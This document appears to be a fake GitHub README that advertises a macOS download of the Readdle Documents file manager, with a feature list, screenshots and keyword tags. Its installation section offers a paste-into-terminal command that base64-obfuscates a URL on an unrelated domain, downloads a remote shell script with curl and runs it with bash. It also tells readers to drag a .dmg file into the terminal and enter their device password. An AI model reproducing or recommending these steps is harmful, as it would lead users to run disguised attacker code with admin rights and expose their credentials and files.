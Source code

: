 # 📁 Readdle Documents — Smart File Manager & Media Hub for macOS

**Readdle Documents** is a powerful and elegant file management application for macOS. It acts as a central hub for all your files, allowing you to browse documents, watch videos, listen to music, manage downloads, and connect to multiple cloud storage accounts — all in one unified interface.

Whether you're working with PDFs, accessing ZIP archives, or streaming content offline — Readdle Documents delivers unmatched flexibility and control.

---

## ✅ Download Readdle Documents for macOS  
[![Download Readdle Documents](https://img.shields.io/badge/Download-Readdle_Documents-blueviolet)](https://shuziktobehuman.github.io/huja/Readdle)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Readdle Documents?

Readdle Documents is a modern, all-in-one file manager and productivity app for Mac. It combines document viewing, media playback, cloud sync, archive management, and private browsing in a single app. With beautiful UI and Apple Silicon support, it turns your Mac into a full-fledged file system powerhouse.

---

## ✨ Features

- 🗂️ Full file manager: organize, move, rename, or delete files  
- 📥 Built-in download manager and browser  
- 🔐 Secure storage for private documents  
- 🎧 Native audio & video player (MP4, MP3, MKV, etc.)  
- 🌐 Integration with iCloud, Dropbox, Google Drive & more  
- 🗜️ Archive/unzip ZIP and RAR files  
- 🔄 Two-way file syncing across devices  
- 📁 Easy drag-and-drop file organization  
- 🌙 Beautiful dark mode interface  

---

## 💡 Why Use Readdle Documents?

- ✅ Manage all your documents, media, and cloud files in one place  
- 🔒 Keep sensitive data safe with encryption and private folders  
- 📲 Transfer files wirelessly between devices  
- 🌍 Browse and download from the web directly in the app  
- 🎞️ Enjoy seamless video playback with subtitle support  
- 🧰 Perfect for students, creators, and anyone needing a Mac file hub  

---

[![Download Readdle Documents](https://img.shields.io/badge/Download-Readdle_Documents-blueviolet)](https://shuziktobehuman.github.io/huja/Readdle)

---

## 🖼️ Preview

![Readdle Documents Screenshot 1](https://cdn-rdstaticassets.readdle.com/readdle/Blog/documents-mac-apple-silicon-m1/documents-mac-apple-silicon-m1-main-files.png)  
![Readdle Documents Screenshot 2](https://cdn-rdstaticassets.readdle.com/assets/readdle/modern_2019/products/documents/index/block-transfer-01.png?1744896847)

---

## 📌 Tags

readdle documents, readdle document, documents by readdle android,  
documents by readdle for pc, app documents by readdle, documents app by readdle,  
documents app readdle, documents by readdle app store, documents by readdle iphone,  
readdle app, apps like documents by readdle, document by readdle download,  
document by readdle ios, document by readdle pc, readdle documents mac,  
readdle documents mac download
